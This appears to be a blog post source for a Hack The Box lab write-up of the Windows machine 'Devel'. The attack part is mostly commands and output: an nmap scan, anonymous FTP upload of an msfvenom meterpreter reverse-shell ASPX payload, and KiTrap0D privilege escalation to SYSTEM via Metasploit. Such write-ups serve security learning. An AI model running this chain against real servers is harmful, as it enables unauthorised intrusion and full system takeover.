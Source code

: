 ```yaml
---
layout: post
title: Devel(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.5
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.5
  
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-18 15:47 EST
<br>Nmap scan report for 10.10.10.5
<br>Host is up (0.22s latency).
<br>Not shown: 998 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open  ftp     Microsoft ftpd
<br>| ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br>| 03-18-17  01:06AM                  aspnet_client
<br>| 03-17-17  04:37PM                  689 iisstart.htm
<br>|_03-17-17  04:37PM               184946 welcome.png
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 7.5</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: <font color="53E100">Microsoft-IIS/7.5</font>
<br>|_http-title: IIS7
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 21/tcp)
<br>HOP RTT       ADDRESS
<br>1   283.76 ms 10.10.14.1
<br>2   283.90 ms 10.10.10.5

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.06 seconds</p>
</div>
</font>

Anonymous login in FTP is allowed, which means we can loggin to the FTP server with {_**anonymous**_} as a username and password.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># ftp 10.10.10.5
<br>Connected to 10.10.10.5.
<br>220 Microsoft FTP Service
<br>Name (10.10.10.5:root): anonymous
<br>331 Anonymous access allowed, send identity (e-mail name) as password.
<br>Password:
<br>230 User logged in.
<br>Remote system type is Windows_NT.
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      <font color="53E100">aspnet_client</font>
<br>03-17-17  04:37PM                  689 <font color="53E100">iisstart.htm</font>
<br>03-17-17  04:37PM               184946 <font color="53E100">welcome.png</font>
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p> 
</div>
</font>
Looks like we got the access to the Web-Directory of the server using FTP, So now we will generate our payload using _**msfvenom**_ , As the target server is using IIS 7 so we will need to generate the payload with the extension of (_**.aspx**_).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.*.* LPORT=4455 -b "\x00" -f aspx > teck.aspx
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>Found 10 compatible encoders
<br>Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
<br>x86/shikata_ga_nai succeeded with size 360 (iteration=0)
<br>x86/shikata_ga_nai chosen with final size 360
<br>Payload size: 360 bytes
<br>Final size of aspx file: 2917 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
Now upload our generated payload into the FTPServer
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">ftp</font>> put teck.aspx 
<br>local: teck.aspx remote: teck.aspx
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>226 Transfer complete.
<br>2954 bytes sent in 0.00 secs (12.4653 MB/s)
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      aspnet_client
<br>03-17-17  04:37PM                  689 iisstart.htm
<br>12-22-17  07:35AM                 2907 <font color="53E100">teck.aspx</font>
<br>03-17-17  04:37PM               184946 welcome.png
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p>
</div>
</font>
The file has been uploaded, now to get the reverse shell first open the multi handler listner in **_MSF_** and then browse the file in browser {**http://10.10.10.5/teck.aspx**}.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">msf</font> > use exploit/multi/handler
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.14
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.5
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.5:49158) at 2017-12-18 17:27:04 -0500

<br><font color="BB69EC">meterpreter</font> > getuid
<br>Server username: <font color="53E100">IIS APPPOOL\Web</font>
<br><font color="BB69EC">meterpreter</font> >run post/windows/manage/migrate

<br><font color="RoyalBlue">[*]</font> Running module against DEVEL
<br><font color="RoyalBlue">[*]</font> Current server process: w3wp.exe (1132)
<br><font color="RoyalBlue">[*]</font> Spawning notepad.exe process to migrate to
<br><font color="53E100">[+]</font> Migrating to 264
<br><font color="53E100">[+]</font> Successfully migrated to process 264
<br><font color="BB69EC">meterpreter</font> > </p>
</div>
</font>
<br>We got the web **_Meterpreter_** session, run the post migrate command or the meterpreter session will be close after 5 min. Now in able to read the flag first we need to _Escalate our Privilege_.
<br>**Privilege Escalation Exploit**:- [Windows SYSTEM Escalation via KiTrap0D](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_015_kitrap0d)
<br>**Vulnerabilty Description**:- This module will create a new session with SYSTEM privileges via the KiTrap0D exploit by Tavis Ormandy. If the session in use is already elevated then the exploit will not run. The module relies on kitrap0d.x86.dll, and is not supported on x64 editions of Windows.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 3...
<br>msf exploit(<font color="red">handler</font>) > use exploit/windows/local/ms10_015_kitrap0d
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set SESSION 3
<br>SESSION => 3
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 1376 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 1376...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 1376 ...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 1376...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.5
<br><font color="RoyalBlue">[*]</font> Meterpreter session 4 opened (10.10.*.*:444 -> 10.10.10.5:49158) at 2017-12-18 18:01:20 -0500

<br>meterpreter >getuid
<br>Server username: <font color="53E100">NT AUTHORITY\SYSTEM</font>
<br>meterpreter ></p> 

</div>
</font>

<br>**Flags**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>c:\Users\babis\Desktop>type <font color="53E100">user.txt.txt</font>
<br>type user.txt.txt
<br>********************
<br>c:\Users\Administrator\Desktop>type <font color="53E100">root.txt.txt</font>
<br>type root.txt.txt
<br>********************
<br>c:\Users\Administrator\Desktop></p>  
</div>
</font>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
